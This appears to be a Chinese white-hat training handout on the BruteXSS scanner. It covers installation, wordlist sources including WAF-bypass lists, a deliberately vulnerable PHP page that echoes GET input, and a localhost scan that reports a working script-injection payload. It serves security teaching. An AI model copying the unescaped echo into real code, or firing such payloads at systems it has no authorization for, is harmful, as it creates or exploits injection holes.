 ```yaml
---
title: "米斯特白帽培训讲义 工具篇 BruteXSS"
id: csdn53819985
---
```


# 米斯特白帽培训讲义 工具篇 BruteXSS

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 介绍

BruteXSS 是一个非常强大和快速的跨站点脚本检测工具，可用于暴力注入参数。BruteXSS 从指定的词库加载多种有效载荷进行注入，并且使用指定的载荷和扫描检查这些存在 XSS 漏洞的参数。得益于非常强大的扫描功能，在执行任务时，BruteXSS 非常准确而且极少误报。 BruteXSS 支持 POST 和 GET 请求，并适应现代 Web 应用程序。

特性：

*   XSS 爆破
*   XSS 扫描
*   GET/POST 请求
*   可包含自定义单词
*   人性化的 UI

## 安装

首先安装 Python 2.7。

依赖是`Colorama`和`Mechanize`两个库。但我看到源码中包含了这两个库，所以一般不用自己安装。如果运行失败，那么执行这两条命令手动安装一下。

```
pip install colorama
pip install Mechanize
```

之后从`https://github.com/shawarkhanethicalhacker/BruteXSS/zipball/master`下载所有文件，解压。

还需要单词列表，原版的`wordlist.txt`有 20 条语句，只能执行基本的 XSS 检查。

`https://github.com/ym2011/penetration/blob/master/BruteXSS/wordlist-small.txt`这个文件有 100 条语句，可以执行相对全面的 XSS 检查。

`https://github.com/ym2011/penetration/blob/master/BruteXSS/wordlist-medium.txt`这个文件有 200 条语句，可以执行绕过 WAF 的 XSS 检查。

`https://github.com/ym2011/penetration/blob/master/BruteXSS/wordlist-huge.txt`这个文件有 5000 条语句，可以非常全面并且执行绕过 WAF 的 XSS 检查。

然后为了模拟被测页面，我们还要部署一个页面：

```
\\XSS反射演示
<form action="" method="get">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
$xss = @$_GET['xss'];
if($xss!==null){
    echo $xss;
}
```

假设我们能够通过`localhost/xss.php`来访问它。

## 使用

首先在解压处执行：

```
python brutexss.py
```

于是就进入命令行界面了

```
 ____             _        __  ______ ____
 | __ ) _ __ _   _| |_ ___  \ \/ / ___/ ___|
 |  _ \| '__| | | | __/ _ \  \  /\___ \___ \
 | |_) | |  | |_| | ||  __/  /  \ ___) |__) |
 |____/|_|   \__,_|\__\___| /_/\_\____/____/

 User:Gh0stkey
 注意:使用错误的有效载荷的定义
 字典可能给你积极性质
 更好地使用字典
 提供积极的结果。

[?] 选择方法: [G]GET 或者 [P]Post (G/P):
```

下面它会询问我们一些配置。我们在选择方法时输入`G`，指定 URL 时输入`http://localhost/xss.php?xss`，这里一定要把参数暴露出来给它。然后字典位置输入`wordlist.txt`，大家也可以尝试其他字典。

```
[?] 选择方法: [G]GET 或者 [P]Post (G/P): G
[?] 输入 URL:
[?] > http://localhost/xss.php?xss=
[+] 检测 localhost 是可用的...
[+] localhost is available! Good!
[?] 输入字典的位置 (按Enter键使用默认 wordlist.txt)
[?] > wordlist.txt
```

之后程序会显示结果，告知我们该页面存在 XSS 漏洞。

```
[+] 从指定字典加载载荷.....
[+] 25 攻击载荷加载...
[+] Bruteforce开始:
[+] 测试 'xss' 参数...
[+] 0 / 25 攻击载荷注入...
[!] Xss漏洞发现
[!] 参数:       xss
[!] Payload:    </script>"><script>prompt(1)</script>
[+] Bruteforce完成。
[+] 1 参数是 容坠セ鞯?   xss.
[+] 扫描结果 localhost:
+----+------------+----------------+
| Id | Parameters |     Status     |
+----+------------+----------------+
| 0  |    xss     |   Vulnerable   |
+----+------------+----------------+

[?] [E]结束进程\[A]程序初始化
```

之后它会让我们选择，结束进程的意思就是退出，初始化的意思就是重新开始。如果不需要扫描其他东西，我们输入`E`。

如果是 POST 扫描，我们为 URL 输入`http://localhost/xss.php`，为数据输入`xss=`就可以了。

由于一些 XSS 比如储存型 XSS 不便于自动化扫描，这个工具的作用仍然很有限，遇到扫不出来的漏洞很正常。